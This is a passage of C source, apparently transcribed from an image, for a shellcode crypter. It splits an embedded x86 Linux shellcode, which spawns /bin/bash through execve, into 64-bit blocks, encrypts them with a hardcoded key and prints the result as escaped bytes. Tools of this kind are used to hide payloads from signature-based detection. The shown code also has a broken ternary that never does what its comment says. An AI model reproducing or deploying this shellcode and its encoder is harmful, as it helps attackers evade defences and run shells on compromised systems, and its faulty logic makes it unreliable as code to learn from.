```c
}

/* This function is used to divided the shellcode in block of 64 bits and then call the encrypt function.
:param char *shellcode  -> the shellcode to encrypt:
:param uint32_t k[4]    -> the key used to encrypt:
*/
void encryptBlocks(char *shellcode, uint32_t *key)
{   
    // Declare variables
    int i = 0, blockcount;
    
    // Devide the shellcode in blockcount
    // 8 is the number of Bytes (8 * 8 == 64 bits)
    blockcount = strlen(shellcode) / 8;

    // Conditionnal ternary operator
    // --> Check if the blockcount == 0
    //     --> if so: blockcount == 1
    //     --> else: blockcount = blockcount
    blockcount = 0 ? 1 : blockcount;

    // For each block of 64 bits the shellcode is encrypted with the given key
    while (i < blockcount) {
        encrypt((uint32_t *)shellcode + (i * 2), key);
        i += 1;
    }
}


/* This function is used to get the shellcode length and print it
:param char *shellcode -> the shellcode used:
*/
void printShellcode(char *shellcode)
{
    int i;
    // Print the shellcode length
    printf("Shellcode length = %d\n", strlen(shellcode));
    // Loop for each element in the shellcode array
    for(i = 0; i < strlen(shellcode); i++)
    {
        // Print their hexadecimal values
        printf("\\x%02x", (unsigned char)(int)shellcode[i]);
    }
    // Add a newline
    printf("\n");
}


int main()
{
    // 128 bits encrypt key (32 * 4 bits)
    // A PRETTY BAD IDEA TO HARDCODE IT IN THE CODE
    uint32_t key[4] = {0xAAAAAAAA, 0xBBBBBBBB, 0xCCCCCCCC, 0xDDDDDDDD};

    // Shellcode to encrypt
    unsigned char shellcode[] = "\xeb\x18\x5e\x31\xc0\x88\x46\x09\x89\x76\x0a\x89\x46\x0e\x8d\x1e\x8d\x4e\x0a\x8d\x56\x0e\xb0\x0b\xcd\x80\xe8\xe3\xff\xff\xff\x2f\x62\x69\x6e\x2f\x62\x61\x73\x68";

    // Encrypt the shellcode
    encryptBlocks(shellcode, key);

    // Print the encrypted shellcode
```